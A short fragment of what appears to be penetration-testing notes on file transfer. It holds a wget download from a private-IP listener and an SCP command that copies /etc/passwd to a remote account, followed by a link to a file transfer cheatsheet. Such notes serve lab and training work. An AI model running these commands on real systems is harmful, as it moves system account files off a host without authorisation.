 ```
wget 192.168.49.128:8000/filetotransfer.txt
```
### SCP Upload
File Upload using SCP
```
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```
[File transfer cheatsheet](https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/)
